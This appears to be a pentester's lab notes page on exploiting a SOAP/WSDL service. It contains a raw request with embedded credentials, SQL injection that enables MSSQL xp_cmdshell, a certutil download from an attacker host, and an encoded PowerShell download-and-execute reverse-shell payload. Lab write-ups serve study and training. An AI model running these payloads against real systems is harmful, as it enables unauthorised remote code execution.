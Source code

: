 ```yaml
---
description: Web Service Description file
---
```


# WSDL

<details>

<summary>Exploiting WSDL</summary>

Retrieving WSDL file: `GET /DocumentsService.asmx?wsdl`

<figure><img src=".gitbook/assets/image (344).png" alt=""><figcaption></figcaption></figure>

Right click: Extensions --> wsdler --> Parse WSDL

<figure><img src=".gitbook/assets/image (345).png" alt=""><figcaption></figcaption></figure>

In Wsdler tab --> select getDocumets\_Dev (Binding: DocumentsServiceSoap12)

<figure><img src=".gitbook/assets/image (346).png" alt=""><figcaption></figcaption></figure>

Save the following request as soap3.req

```
	POST /DocumentsService.asmx HTTP/1.1
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
	Accept: application/xml, text/xml, */*; q=0.01
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br
	X-Requested-With: XMLHttpRequest
	Origin: http://172.16.1.24
	Authorization: Basic c3ZjX2lpczpWaW50YWdlIQ==
	Connection: keep-alive
	Referer: http://172.16.1.24/dashboard
	Cookie: ASP.NET_SessionId=2wx1ig0vwv55iwv3c3dutqp1
	Priority: u=0
	SOAPAction: http://tempuri.org/getDocuments_Dev
	Content-Type: text/xml;charset=UTF-8
	Host: 172.16.1.24
	Content-Length: 379
	
	<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tem="http://tempuri.org/">
	   <soap:Header/>
	   <soap:Body>
	      <tem:getDocuments_Dev>
	         <!--type: string-->
	         <tem:document>gero et</tem:document>
	         <!--type: string-->
	         <tem:author>sonoras imperio</tem:author>
	      </tem:getDocuments_Dev>
	   </soap:Body>
	</soap:Envelope>

```

Have to enable xp\_cmdshell:

```sql
');EXEC sp_configure 'show advanced options', 1;--+
');RECONFIGURE;--+
');sp_configure;--+
');EXEC sp_configure 'xp_cmdshell', 1;--+
');RECONFIGURE;--+
```

<figure><img src=".gitbook/assets/image (347).png" alt=""><figcaption></figcaption></figure>

Testing to see if xp\_cmdshell works:

```sql
');EXEC xp_cmdshell 'cmd /c certutil -urlcache -f http://10.10.14.2/helloo hello';--+
```

<figure><img src=".gitbook/assets/image (348).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (349).png" alt=""><figcaption></figcaption></figure>

Getting RCE on MSSQL, using simple\_ps\_revshell:

```sql
');EXEC xp_cmdshell 'cmd /c powershell -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAvAHIAdQBuAGEAbABsAC4AcABzADEAJwApAA==';--+
```

<figure><img src=".gitbook/assets/image (350).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>References</summary>

[https://www.netspi.com/blog/technical-blog/web-application-pentesting/hacking-web-services-with-burp/](https://www.netspi.com/blog/technical-blog/web-application-pentesting/hacking-web-services-with-burp/)

</details>
